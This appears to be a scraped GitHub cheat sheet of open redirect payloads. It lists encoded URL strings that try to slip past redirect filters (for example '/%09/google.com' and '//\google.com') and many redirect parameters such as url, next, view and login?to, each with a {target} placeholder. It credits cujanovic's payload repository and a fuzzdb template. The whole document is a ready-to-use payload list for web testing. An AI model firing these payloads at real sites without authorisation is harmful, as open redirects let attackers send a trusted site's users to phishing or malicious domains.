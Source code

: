 ## Open Redirect

```
/%09/google.com
```

```
/%5cgoogle.com
```

```
//www.google.com/%2f%2e%2e
```

```
//www.google.com/%2e%2e
```

```
//google.com/
```

```
//google.com/%2f..
```

```
//\google.com
```

```
/\victim.com:80%40google.com
```

## Possible open redirect parameters

```
?url=http://{target}
```

```
?url=https://{target}
```

```
?next=http://{target}
```

```
?next=https://{target}
```

```
?url=https://{target}
```

```
?url=http://{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?next=//{target}
```

```
?next=$2f%2f{target}
```

```
?url=//{target}
```

```
?url=$2f%2f{target}
```

```
?url=//{target}
```

```
/redirect/{target}
```

```
/cgi-bin/redirect.cgi?{target}
```

```
/out/{target}
```

```
/out?{target}
```

```
/out?/{target}
```

```
/out?//{target}
```

```
/out?/\{target}
```

```
/out?///{target}
```

```
?view={target}
```

```
?view=/{target}
```

```
?view=//{target}
```

```
?view=/\{target}
```

```
?view=///{target}
```

```
/login?to={target}
```

```
/login?to=/{target}
```

```
/login?to=//{target}
```

```
/login?to=/\{target}
```

```
/login?to=///{target}
```



**Open Redirect Payloads** by @cujanovic

https://github.com/cujanovic/Open-Redirect-Payloads


**Open Redirect Paramters** by @fuzzdb-project

https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/redirect/redirect-urls-template.txt
